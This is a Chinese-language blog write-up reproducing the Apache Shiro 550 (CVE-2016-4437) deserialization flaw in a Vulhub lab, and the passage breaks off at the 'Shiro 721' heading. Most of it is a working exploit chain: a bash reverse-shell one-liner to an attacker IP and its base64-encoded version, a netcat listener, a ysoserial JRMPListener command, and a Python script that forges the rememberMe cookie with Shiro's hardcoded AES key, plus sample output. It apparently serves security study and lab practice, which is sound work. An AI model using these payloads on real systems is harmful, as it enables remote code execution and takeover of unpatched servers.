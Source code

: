 ```yaml
---
title: Shiro 550-721 反序列化漏洞复现
published: 2025-03-09 16:43:11
tags: [WEB安全,漏洞复现]
category: 安全
draft: false
---
```


# Shiro 550-721 反序列化漏洞复现

`Shiro`是`Apache`的一个强大且易用的`Java`安全框架,用于执行身份验证、授权、密码和会话管理。使用 `Shiro` 易于理解的 `API`，可以快速轻松地对应用程序进行保护

## Shiro 550

> CVE-2016-4437 `Shiro`版本≤`1.2.24`
> 

### 漏洞原理

在`Apache shiro`的框架中，执行身份验证时提供了一个记住密码的功能（`RememberMe`），如果用户登录时勾选了这个选项。用户的请求数据包中将会在`cookie`字段多出一段数据，这一段数据包含了用户的身份信息，且是经过加密的。

加密过程：**用户信息=>序列化=>AES加密（这一步需要用密钥`key`）=>base64编码=>添加到`RememberMe Cookie`字段**

勾选记住密码之后，下次登录时，服务端会根据客户端请求包中的cookie值进行身份验证，无需登录即可访问。

那么服务端对Cookie的验证过程就是：**取出请求包中`rememberMe`的`cookie`值 => Base64解码=>AES解密（用到密钥`key`）=>反序列化**

就在这里出现了问题，`AES`加密过程中使用的密钥`key` （对称机密算法），但是在`Shiro`版本≤`1.2.24`中使用了固定的加密密钥**`kPH+bIxk5D2deZiIxcaaaA==`** ，这样就可以利用这个密钥实现上述加密过程，在`Cookie`字段中写入服务端执行恶意代码，最后在服务端对`Cookie`解密时（反序列化后）就会执行恶意代码。

（图片和文字来源：https://blog.csdn.net/Bossfrank/article/details/130173880）

![a5f57ee40a663091aed9132e7d8eb12f.png](a5f57ee40a663091aed9132e7d8eb12f.png)

### 漏洞验证

验证漏洞的汇总：

> https://blog.csdn.net/dreamthe/article/details/124390531 ：
> 
> 1. 未登录的情况下，请求包的`cookie`中没有`rememberMe`字段，返回包`set-Cookie`里也没有`deleteMe`字段
> 2. 登录失败的话，不管有没有勾选`RememberMe`字段，返回包都会有 `rememberMe=deleteMe`字段
> 3. 不勾选`RememberMe`，登录成功的话，返回包`set-Cookie`里有`rememberMe=deleteMe`字段。但是之后的所有请求中`Cookie`都不会有`RememberMe`字段
> 4. 勾选`RememberMe`，登录成功的话，返回包`set-Cookie`里有`rememberMe`=deleteMe字段，还会有`remember`字段，之后的所有请求中`Cookie`都会有`rememberMe`字段
> 5. 或者可以在`cookie`后面自己加一个`rememberMe=1`,看返回包有没有`rememberMe= deleteMe`

漏洞验证的核心还是在`Shiro`是否使用了固定密钥**`kPH+bIxk5D2deZiIxcaaaA==`** 或者我们可以通过脚本工具来爆破出来密钥那么`Shiro 550`才一定会存在

使用工具验证漏洞`Shiro 550` https://github.com/SummerSec/ShiroAttack2

![image.png](image.png)

也可以使用脚本来爆破 https://github.com/Ares-X/shiro-exploit 

```bash
┌──(pycryptodome)─(root㉿kali)-[~/Desktop/Tools/shiro-exploit]
└─# python3 shiro-exploit.py check -u http://192.168.111.163:8080
Target Used Shiro,Staring butre key:
Version 1 Key Found: kPH+bIxk5D2deZiIxcaaaA==
```

### 漏洞复现 （手动）

使用`Vulhub`来搭建

`192.168.111.163:8080` （`Centos`）

`192.168.111.162` （`kali`）

进入到靶机页面：

![image.png](image%201.png)

复现之前首先验证是否使用`Shiro`，我们勾选记住我然后输入账号密码，抓包发送，然后查看返回包，能看到返回包存在`Set-Cookie: rememberMe=` 字段。这样就表示登陆页面启动呢`Shiro`来进行登陆验证。

![image.png](image%202.png)

使用工具验证后存在漏洞，就可以开始复现漏洞了

构造`Cookie`执行反弹`shell`命令

1. `kali`开启监听：`nc -lvp 6666`
2. 构造反弹`shell`命令
    
    ```bash
    bash -i >& /dev/tcp/192.168.111.162/6666 0>&1
    ```
    
    经过对特殊符号进行`base64`编码，使用https://ares-x.com/tools/runtime-exec
    
    ```bash
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xNjIvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}
    ```
    
3. 使用序列化工具`ysoserial.jar` 开启反弹`shell`的服务器
    
    ```bash
    java -cp ysoserial.jar ysoserial.exploit.JRMPListener 7777 CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xNjIvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}"
    ```
    
    在`kali`中最好，后面的命令就是上面经过`base64`编码特殊加密后的`payload`
    
    ![image.png](image%203.png)
    
    这条命令相当是用`ysoserial.jar` (需要`JDK9`) 工具在攻击机开启服务器在`7777`端口监听，然后在这个服务上放一个反弹`shell` 的`payload` ，并且使用`ysoserial` 指定`CommonsCollections5`（vulbhub存在对`CommonsCollections` 的依赖） 利用链生成可执行的`bash -i >& /dev/tcp/192.168.111.162/6666 0>&1` ，有客户端请求时就将`payload` 返回
    
4. 生成`AES`加密的`base64`编码后的`remember`字段
    
    里边的参数以自己的为准，比如`popen` 里边执行的`java` 的路径，以及`key`值
    
    ```python
    # python2 脚本 shiro.py
    import sys
    import uuid
    import base64
    import subprocess
    from Crypto.Cipher import AES
    def encode_rememberme(command):
        popen = subprocess.Popen(['/usr/local/jdk-9.0.4/bin/java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
        BS = AES.block_size
        pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
        key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
        iv = uuid.uuid4().bytes
        encryptor = AES.new(key, AES.MODE_CBC, iv)
        file_body = pad(popen.stdout.read())
        base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
        return base64_ciphertext
     
    if __name__ == '__main__':
        payload = encode_rememberme(sys.argv[1])   
    print "rememberMe={0}".format(payload.decode())
    ```
    
    执行命令，生成请求包里面的`rememberMe`
    
    ```python
    (pycryptodome)  ⚡ root@kali  ~/Desktop/Tools/ShiroExploit.V2.51  python shiro.py 192.168.111.162:7777
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    rememberMe=u4bJ0F/sQ/yViG6BGXsIqXRNDTM4d0CYAqpYyfLdmyj3qz68sYcIuXHaXIPmt5XLV34dSzGw0uOEjckRUZ9ZuuoUGonNPkrBjdaCH6Zeh2Gm3633P9ZepD6N6MhRZ0zMoNwMVPJQ5ETAK8i3IJ03FsnUrlHCb4xIA3PcOs74LygOOmEeqriRSxhhObqTpQZS3sFYFJ2i3duOvCHCtjmsRyxFq1TSYCftosDMAOxmBl0izbbjTN2XcCxBJtMGyJxEmRoB/93g+WADXPOB2541PQ31Zud+bLyHpTesprrjszfRLikkqiiWeaV2woyadviqN76uF+oAI37TJDbVmEn5M4l4JcYEAPYnVVKVekPj/H5mhl+Rnjaq2xIj82QSO3bE773Fhy+LXOivwcsgl3LMKQ==
    ```
    
    ![image.png](image%204.png)
    
5. 修改请求包里面的**`cookie`**的`rememberMe`字段
    
    ![image.png](image%205.png)
    
    查看响应包里面的`rememberMe`字段，应该是成功了
    
    ![image.png](image%206.png)
    
6. 我们再看一下`ysoserial.jar` 监听的端口
    
    能看见服务器`192.168.111.163`（靶机）和其发起了通信
    
    ![image.png](image%207.png)
    
7. 最后再看`kali`的监听的`6666`端口，成功获得`shell`
    
    ![image.png](image%208.png)
    

### 分析攻击过程

来自：https://blog.csdn.net/Bossfrank/article/details/130173880

对于攻击者而言，核心就是干了两件事：

1.搭建`VPS`进行`JRMPListener`，存放反弹`shell`的`payload1`

2.将上述`VPS`进行`JRMPListener`的地址进行了`AES`加密和`base64`编码，构造请求包`cookie`中的`rememberMe`字段，向存在漏洞的服务器发送加密编码后的结果`payload2`

那么对于靶机服务器，他是怎么沦陷的呢？

1.接收到请求包`payload2`，对他进行`base64`解码=>`AES`解密，发现要和一个`VPS`的`JRMP 7777`端口进行通信。

2.向恶意站点`VPS`的`JRMP 7777`进行请求，接收到了到了序列化后的恶意代码（反弹`shell`到攻击机的`6666`端口）`payload1`。

3.对`payload1`执行了反序列化，执行了反弹`shell`的恶意命令，就此沦陷。

### 复现漏洞（工具）

![image.png](image%209.png)

![image.png](image%2010.png)

## Shiro 721